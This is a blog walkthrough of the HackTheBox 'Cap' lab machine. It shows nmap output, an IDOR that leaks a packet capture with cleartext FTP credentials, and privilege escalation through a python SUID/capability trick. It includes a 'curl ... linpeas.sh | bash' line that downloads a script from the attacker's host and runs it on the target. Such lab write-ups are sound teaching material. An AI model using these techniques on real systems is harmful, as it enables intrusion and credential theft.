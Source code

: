 ```yaml
---
title: Cap
date: 2022-08-13 14:27
categories: [htb]
tags: [Linux,IDOR,Packet Capture,SUID Exploitation]
--- 
```


![capimg](/assets/img/capimg.png)
Cap is a pretty straight-forward easy level machine on HacktheBox that I had alot of fun completing. We start by finding an IDOR vulnerability on the web server which lets us grab a .pcap file from the past. Opening it with wireshark shows us credentials for a user on the machine, and from there we get to root through an SUID exploit.

### Enumeration

Starting with NMAP, we see that FTP, SSH, and HTTP services are running on ports 21, 22, and 80.

```bash
sudo nmap -sC 10.10.10.245
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-13 18:53 EDT
Nmap scan report for 10.10.10.245
Host is up (0.052s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http
|_http-title: Security Dashboard
```

Before we look at the website, it's always a good idea to check if anonymous login is enabled on the FTP server. 

```bash
$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
```

Turns out it's disabled-let's just check out the website,seems to be a security monitoring dashboard which contains information on the host's internal network. Potential username on the right side "Nathan".

![site](/assets/img/cap/site.png)

We can see the output of ifconfig

![ifconfig](/assets/img/cap/ifconfig.png)

netstat

![netstat](/assets/img/cap/netstat.png)

and most interestingly, an endpoint on http://10.10.10.245/data/1 that contains a (blank) pcap file from the past 5 seconds.

![data](/assets/img/cap/data.png)
![pcap](/assets/img/cap/pcap.png)

### Using the IDOR to Get Nathan's Credentials

What happens however if we change the url to http://10.10.10.245/data/0 ?

![data](/assets/img/cap/idor.png)
![data](/assets/img/cap/pcap2.png)

we get a packet capture from the past with an insecure direct object reference (IDOR).

![creds](/assets/img/cap/creds.png)

In this case, we can see an in-the-clear successful authentication attempt from Nathan to the FTP server, showing us his credentials. Using these credentials, we can login to the machine through SSH and grab the user flag.

![creds](/assets/img/cap/user.png)

### Privilege Escalation

From here we can get [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) on the box, an awesome script that looks for tons of priv-esc vectors. We start by serving linpeas.sh from our local machine on a simple python http server.

![web](/assets/img/cap/web.png)
![web](/assets/img/cap/mysite.png)

Then from the victim's machine we pull the script from our website and execute it automatically with:

```bash
curl 10.10.14.17:8000/linpeas.sh | bash
```

We get a hit on our server from the victim's IP address, and the script executes on the victim's machine.

![hit](/assets/img/cap/hit.png)

Linpeas found something juicy:
![suid](/assets/img/cap/suid.png)
Nathan has the SUID bit on /usr/bin/python3.8, which can be used to get a root shell on the box with a trick from [hackingarticles](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/).
![root](/assets/img/cap/root.png)
